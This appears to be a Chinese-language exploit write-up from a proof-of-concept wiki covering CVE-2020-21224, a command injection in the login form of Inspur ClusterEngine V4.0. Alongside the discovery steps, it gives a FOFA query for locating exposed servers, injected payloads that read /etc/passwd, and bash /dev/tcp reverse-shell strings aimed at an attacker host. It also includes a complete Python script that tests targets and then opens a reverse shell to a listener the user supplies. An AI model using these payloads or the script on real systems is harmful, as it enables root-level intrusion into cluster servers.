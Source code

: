 # 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

`浪潮ClusterEngineV4.0`

## FOFA

`title="TSCEV4.0"`

## 漏洞复现
登录页面如下

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/1.png)

由于登录页面没有发现验证码，进行账号爆破

当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/2.png)

通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有一个`'`，系统将抛出异常。

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/3.png)

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/4.png)

进一步测试时，我发现username参数或password任一参数如果包含`'`，将引发此异常

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/5.png)

尝试发送`''`来查看响应包。

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/6.png)

我注意到 grep 命令错误，服务端的代码可能是这样

```bash
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```

尝试发送 `-V` 和 `--help` 来查看响应包，响应包证实了猜测

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/7.png)

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/8.png)

尝试读取 `/etc/passswd`

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/9.png)

尝试列目录

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/10.png)

确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/11.png)

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/12.png)

反弹 shell

```bash
op=login&username=1 2\',\'1\'\);`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/13.png)

上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法

```bash
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=sec`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}
```

反弹shell

```bash
op=login&username=sec`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/14.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=peiqi`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/15.png)

## Goby & POC



已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中

`ClusterEngineV4.0_RCE`

![](resource/浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224/media/16.png)

## 参考文章
https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul
